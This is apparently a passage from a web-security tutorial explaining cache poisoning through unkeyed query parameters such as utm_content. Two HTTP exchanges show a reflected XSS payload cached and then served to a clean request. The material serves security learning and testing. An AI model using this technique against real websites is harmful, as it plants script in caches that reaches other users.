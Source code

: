 ## Unkeyed query parameters

So far we've seen that on some websites, the entire query string is excluded from the cache key. But some websites only exclude specific query parameters that are not relevant to the back-end application, such as parameters for analytics or serving targeted advertisements. UTM parameters like `utm_content` are good candidates to check during testing.

Try to find any reflected parameter which is not part of the cache key.

```
GET /?utm_content='/><script>alert(1)</script> HTTP/2
Host: vulnerable-website.com

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: utm_content=%27%2f%3e%3cscript%3ealert%281%29%3c%2fscript%3e; Secure; HttpOnly
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 8248

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <link rel="canonical" href='//vulnerable-website.com/?utm_content='/><script>alert(1)</script>'/>
```

```
GET / HTTP/2
Host: vulnerable-website.com

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 11
X-Cache: hit
Content-Length: 8248

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <link rel="canonical" href='//vulnerable-website.com/?utm_content='/><script>alert(1)</script>'/>

```
